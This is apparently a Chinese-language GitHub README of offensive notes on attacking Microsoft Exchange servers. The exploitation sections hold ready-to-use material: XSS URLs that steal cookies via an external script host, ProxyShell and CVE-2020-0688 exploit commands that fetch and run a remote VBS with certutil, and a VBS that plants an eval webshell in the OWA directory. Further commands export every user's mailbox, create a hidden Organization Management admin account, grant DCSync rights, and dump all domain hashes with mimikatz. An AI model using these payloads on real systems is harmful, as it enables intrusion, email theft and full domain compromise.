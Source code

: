 # Exchange学习

整理和自己写了一些exchange的脚本

## CheckInfo

基于exchange版本和补丁日期检测漏洞

### 版本识别

1. 通过 `owa` 接口，获取短版本信息

2. 通过 `/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application` 接口获取完整版本信息

3. 通过 `/owa/service`, `/owa` 接口响应头 X-OWA-Version获取完整版本

4. 爆破 `/ecp/{version}/exporttool/` 最后一位，获取完整版本

### 漏洞检测
参考[这篇文章](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E7%89%88%E6%9C%AC%E6%8E%A2%E6%B5%8B%E5%92%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B)，根据https://learn.microsoft.com/en-us/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019匹配版本和日期识别漏洞

新增CVE-2022-41082
## NtmlLoginEWS

checkLogin 支持明文密码和ntlm登录，参考[这篇文章](https://github.com/3gstudent/Homework-of-Python/blob/master/checkEWS.py)修改的脚本，更简洁明了

## 漏洞利用

### ProxyOracle

#### 打法

1. xss打cookie  https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.cookie)//

https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//  利用dnslog平台打cookie


参考 https://www.4hou.com/posts/lEOM 

2. PaddingOracle 解密明文

大致原理看文章

参考 

https://hosch3n.github.io/2021/08/10/PaddingOracle%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86/

https://paper.seebug.org/1123/

https://github.com/hosch3n/ProxyVulns

```python
# 必然存在一个guess_iv[-1]值符合
guess_iv[-1] ^ middle[-1] = 0x01
# 根据异或可逆性反推出真实中间值middle[-1]
middle[-1] = guess_iv[-1] ^ 0x01
# 得到真实中间值middle[-1]后，与原本的iv[-1]算出真实的明文plain[-1]
plain[-1] = iv[-1] ^ middle[-1]
```

cadata字段是用AES-CBC加密的"Basic " + ToBase64String(UserName + ":" + Password)

由于IV是RSA加密，但前12个字节固定，所以后4个字节无法得到，就无法得到账号前2位

![PaddingOracle](./img/pic1.png)

### ProxyShell

#### 打法

https://github.com/ktecv2000/ProxyShell

可以直接修改204行payload 为蚁剑马 直接连接

![ProxyShell](./img/pic2.png)

https://github.com/dmaasland/proxyshell-poc
https://github.com/Ridter/proxyshell_payload

先生成payload，然后修改proxyshell_rce.py 314行可以写马

![ProxyShell](./img/pic3.png)

这个洞SSRF 访问到后端的接口，但是默认是System权限，但是 Exchange PowerShell Remoting接口是针对域用户的，所以SYSTEM权限需要鉴权到邮箱用户的权限，一般来讲默认域用户都是有Exchange PowerShell Remoting权限的，所以到这一步一般任意的域用户就可以了。 但是如过想从草稿箱中导出文件，需要用户有邮箱存在，而且需要用户在exchage mailbox import export 组中，一般的像administraotr@xxx.xx邮箱，域管直接就冲了， 但是如果没激活的话只能找导出组中的用户，或者Organization Management组中用户将任意用户加入mailbox import export 组中。 如果邮箱权限没设太死的话，其实也可以用那个exchage mailbox import export 组中的邮箱导出其他人的邮箱（说不定可以偷邮件看）。 然后New-ManagementRoleAssignment 把用户加到exchage mailbox import export 组 从用户的草稿箱把webshell导出来(还可以通过证书导出，不需要New-ManagementRoleAssignment命令)

#### 坑点

报这个"............New-ManagementRoleAssignment ........."就说明部不是Organization Management组不能执行命令，但是其实只要是mailbox import export组就好了，但是因为exp 是每次先加再导出，所以有可能还能打 报 ".....................New-MailboxExportRequest........................"就说明不是mailbox import export组里的，大概率邮件写入草稿箱但是无法导出来，这时候需要找个导出组的邮箱或者想办法加进去

### ProxyLogon

https://github.com/sirpedrotavares/Proxylogon-exploit

### CVE-2020-0688

有回显 https://github.com/zcgonvh/CVE-2020-0688

无回显 https://github.com/Yt1g3r/CVE-2020-0688_EXP

无回显写shell 
1. 先下载vbs  python .\CVE-2020-0688_EXP.py  -s https://192.168.52.149 -u "xx" -p "xxx" -c "cmd.exe /c certutil -urlcache -split -f http://vsp/1.txt C:\windows\temp\test.vbs"
2. 执行vbs python .\CVE-2020-0688_EXP.py  -s https://192.168.52.149 -u "xx" -p "xxx" -c "cmd.exe /c C:\windows\temp\test.vbs"



```vbs
Set shell = CreateObject("Shell.Application")
webshell = "<script language='JScript' runat='server'>function Page_Load(){eval(Request['cmd'],'unsafe');}</script>"
Set oShell = CreateObject( "WScript.Shell" )
path =oShell.ExpandEnvironmentStrings("%ExchangeInstallPath%")
set fs =CreateObject("Scripting.FileSystemObject")
set ts =fs.OpenTextFile(path + "FrontEnd/HttpProxy/owa/auth/test.aspx",2,True)
ts.Write webshell
ts.close
```

## exchange管理


参考链接 https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E4%BB%8EExchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E6%90%9C%E7%B4%A2%E5%92%8C%E5%AF%BC%E5%87%BA%E9%82%AE%E4%BB%B6


不同exchange版本管理单元名称不同

Exchange 2007: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.Admin;
Exchange 2010: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010;
Exchange 2013 & 2016: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;


远程管理
``` powershell
$User = "test\administrator"
$Pass = ConvertTo-SecureString -AsPlainText DomainAdmin123! -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://Exchange01.test.com/PowerShell/ -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber
```
其他命令

```powershell
Get-Mailbox 获得所有邮箱用户
Get-OrganizationalUnit 获取所有OU
New-ManagementRoleAssignment –Role "Mailbox Import Export" –User Administrator  添加用户到导出组
New-MailboxexportRequest -mailbox administrator -FilePath ("\\localhost\c$\test.pst") 导出用户邮件到exchange服务器
Get-Mailbox -OrganizationalUnit Users -Resultsize unlimited |%{New-MailboxexportRequest -mailbox $_.name -FilePath ("\\localhost\c$\test\"+($_.name)+".pst")}  导出所有邮件，保存到Exchange服务器的c:\test
powershell -c "Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;$pwd=convertto-securestring Password123 -asplaintext -force;New-Mailbox -UserPrincipalName testuser1@test.com -OrganizationalUnit test.com/Users -Alias testuser1 -Name testuser1 -DisplayName testuser1 -Password $pwd;Add-RoleGroupMember \"Organization Management\" -Member testuser1 -BypassSecurityGroupManagerCheck"  命令行下添加管理员用户
```


邮件内容搜索  https://github.com/3gstudent/Homework-of-Powershell/blob/master/UsePSSessionToSearchMailfromExchange.ps1

导出用户test1的特定邮件到exchange服务器c:\test下 https://github.com/3gstudent/Homework-of-Powershell/blob/master/DirectExportMailfromExchange.ps1


## 其他利用

### exchange特定的ACL实现域提权

拥有Exchange Trusted Subsystem或Exchange Windows Permission

导入PowerViewr 

https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

添加ACE

Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity win7 -Rights DCSync -Verbose

mimikatz导出hash

mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit